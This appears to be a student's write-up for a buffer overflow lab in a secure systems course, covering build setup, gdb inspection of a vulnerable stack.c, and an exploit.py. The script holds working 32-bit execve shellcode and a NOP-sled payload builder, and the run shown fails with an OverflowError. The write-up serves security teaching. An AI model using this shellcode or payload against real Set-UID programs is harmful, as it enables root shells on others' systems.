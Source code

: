 # HMWK3 Buffer Overflow Attack Lab (Set-UID Version)

CS487 Secure Computer Systems

Robert D. Hernandez <rherna70@uic.edu>

## Env Setup 

See the included taskfile for linking sh to zsh and disabling ASLR convenience scripts `task disable_alr`, `link_to_zsh`

## Task 1: 

I tried compiling shellcode/32_bit_shellcode.s and shellcode/64_bit_shellcode.s with gcc but was met with:

```➜  shellcode git:(hw3/buffer_overflow_attack_lab) ✗ gcc -m32 -DBUF_SIZE=100 fno-stack-protector -z noexecstack -o 32 32_bit_shellcode.s 
32_bit_shellcode.s: Assembler messages:
32_bit_shellcode.s: Warning: end of file not at end of a line; newline inserted
32_bit_shellcode.s:1: Error: no such instruction: `store the command on stack'
32_bit_shellcode.s:2: Error: too many memory references for `xor'
32_bit_shellcode.s:6: Error: too many memory references for `mov'
32_bit_shellcode.s:6: Error: no such instruction: `ebx -->"/bin//sh":execve()’s 1st argument'
32_bit_shellcode.s:7: Error: no such instruction: `construct the argument array argv[]'
32_bit_shellcode.s:8: Error: invalid character '[' in mnemonic
32_bit_shellcode.s:9: Error: invalid character '[' in mnemonic
32_bit_shellcode.s:10: Error: too many memory references for `mov'
32_bit_shellcode.s:10: Error: no such instruction: `ecx -->argv[]:execve()’s 2nd argument'
32_bit_shellcode.s:11: Error: no such instruction: `for environment variable'
32_bit_shellcode.s:12: Error: too many memory references for `xor'
32_bit_shellcode.s:12: Error: junk at end of line, first unrecognized character is `:'
32_bit_shellcode.s:13: Error: no such instruction: `invoke execve()'
32_bit_shellcode.s:14: Error: too many memory references for `xor'
32_bit_shellcode.s:15: Error: too many memory references for `mov'
32_bit_shellcode.s:15: Error: invalid character '(' in mnemonic
32_bit_shellcode.s:16: Error: operand size mismatch for `int'
```

## Task 2: 

I created a simple taskfile entry to build and clean `stack.c` `call.shellcode.c` `shellcode.c`

![alt text](images/build.png)

## Task 3: Launching Attack on 32-bit Program (Level 1)

We begin by running the compiled `stack.c` with `gdb` and we set a breakpoint at the `bof()` function, we see pwndbg below:

![alt text](images/stack_bof_break.png)

I didn't have `$ebp` on my machine I had `$rbp` so printing that value we see the value of `$rbp` is `0x7fffffffdce0`

![alt text](images/rbp_print.png)

and the address of `&buffer` is `0x7ffff7fb0e30`

![alt text](images/buffer_address.png)

I later turned on debugging symbols
![alt text](images/debugging_symbols.png)

I then decided to try the following `exploit.py` and found that the address of the buffer was too high and causing an integer overflow error in python when trying to write it as a bytestring

```
#!/usr/bin/python3

import sys

shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 20 # Need to change
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x7fffffffdc70
# offset = 0 # Need to change
offset = 20 + len(shellcode)

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

produces

```
verflowError: int too big to convert
➜  hw3 git:(hw3/buffer_overflow_attack_lab) ✗ python3 exploit.py
Traceback (most recent call last):
  File "/home/rherna70/code/CS487/hw3/exploit.py", line 24, in <module>
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
OverflowError: int too big to convert
```
